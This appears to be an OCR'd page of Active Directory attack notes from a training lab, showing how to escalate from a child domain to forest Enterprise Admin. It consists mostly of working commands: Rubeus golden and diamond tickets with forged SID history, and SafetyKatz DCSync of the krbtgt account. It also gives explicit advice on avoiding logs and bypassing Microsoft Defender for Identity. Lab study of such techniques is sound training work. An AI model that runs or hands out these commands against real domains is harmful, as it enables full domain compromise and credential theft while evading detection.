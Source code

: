 In the above command, the mimkatz option "/sids" is forcefully setting the
sIDHistory for the Enterprise Admin group for us.techcorp.local that is the
Forest Enterprise Admin Group.

We can now access techcorp-dc as Administrator:

```
ls \\techcorp-dc.techcorp.local\C$

Enter-PSSession techcorp-dc.techcorp.local
```

Avoid suspicious logs and bypass MDI by using Domain Controller
identity

```
Rubeus.exe golden /user:us-dc$ /id:1000 /domain:us.techcorp.local
/sid:S-1-5-21-210670787-2521448726-163245708 /groups:513 /sids:S-1-
5-21-2781415573-3701854478-2406986946-516,S-1-5-9
/aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58C
ACD5 /dc:us-dc.us.techcorp.local /ptt
```

S-1-5-21-2578538781-2508153159-3419410681-516 – Domain Controllers
S-1-5-9 – Enterprise Domain Controllers

```
SafetyKatz.exe '"lsadump::dcsync /user:techcorp\krbtgt
/domain:techcorp.local"'
```

Diamond ticket with SID History will avoid suspicious logs on child DC
and parent DC. Also bypasses MDI:


```
Rubeus.exe diamond
/krbkey:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58C
ACD5 /tgtdeleg /enctype:aes /ticketuser:us-dc$
/domain:us.techcorp.local /dc:us-dc.us.techcorp.local
/ticketuserid:1000 /sids:S-1-5-21-2781415573-3701854478-2406986946-
516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```
SafetyKatz.exe '"lsadump::dcsync /user:techcorp\krbtgt
/domain:techcorp.local"'
```



### Cross Forest Attacks

##### Kerberoast

• It is possible to execute Kerberoast across Forest trusts.
• Let's enumerate named service accounts across forest trusts


Using PowerView
